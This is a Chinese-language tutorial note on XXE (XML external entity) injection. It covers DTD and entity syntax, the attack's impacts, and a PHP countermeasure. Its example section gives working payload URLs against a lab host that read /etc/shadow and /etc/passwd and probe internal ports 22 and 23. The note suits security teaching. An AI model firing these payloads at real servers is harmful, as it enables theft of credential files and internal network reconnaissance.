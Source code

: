# XXE

* XML
  * 基础知识
    * XML中可以引入外部文件
      * DTD（文档类型定义）的作用是定义 XML 文档的合法构建模块。DTD 可以在 XML 文档内声明，也可以外部引用
      * 引用外部DTD
        * `<!DOCTYPE 根元素 SYSTEM "文件名">`
        * 或者
          * `<!DOCTYPE 根元素 PUBLIC "public_ID" "文件名">`
      * 引用外部实体
        * `<!ENTITY 实体名称 SYSTEM "URI">`
        * 或者
          * `<!ENTITY 实体名称 PUBLIC "public_ID""URI">`
    * 当允许引用外部实体时，通过构造恶意内容，可导致读取任意文件、执行系统命令、探测内网端口、攻击内网网站等危害
      * 不同程序支持的协议不一样
        * ![diff_protocol_support_diff_file](../../../assets/img/xxe_diff_protocol_support_diff_file.png)
* `XXE`=`XML eXternal Entity`=`XML外部实体` -> `XML外部实体注入` -> `XXE漏洞`
  * 2017年的`OWSAP` 10之一
  * 含义：
    * 一种针对解析XML输入的应用程序的攻击。
    * 它实质上是另一种注入类型攻击
    * 如果正确利用，可能非常严重。
      * 当包含对外部实体的引用的XML输入是 由弱配置的XML解析器处理时该攻击就会发生。
      * 这种攻击可能导致从解析器所在机器泄漏机密数据，拒绝服务，服务器端请求伪造，端口扫描，以及其他一些系统影响，如亿笑-Dos攻击
  * XXE漏洞利用举例
    ```bash
    http://192.168.0.145:65412/?xml=<!DOCTYPEexample [<!ENTITY xxe SYSTEM "file%3A%2F%2F%2Fetc%2Fshadow">]><root>%26xxe%3B<%2Froot>

    http://192.168.0.145:65412/?xml=<!DOCTYPEexample [<!ENTITY xxe SYSTEM"file%3A%2F%2F%2Fetc%2Fpasswd">]><root>%26xxe%3B<%2Froot>

    http://192.168.0.145:65412/?xml=<!DOCTYPEexample [<!ENTITY xxe SYSTEM"http%3A%2f%2f192.168.0.145%3A22%2f123">]><root>%26xxe%3B<%2Froot>

    http://192.168.0.145:65412/?xml=<!DOCTYPEexample [<!ENTITY xxe SYSTEM "http%3A%2f%2f192.168.0.145%3A23%2f123">]><root>%26xxe%3B<%2Froot>
    ```
  * 对策
    * 举例
      * PHP
        * 禁用外部实体：`libxml_disable_entity_loader`设置为`TRUE`
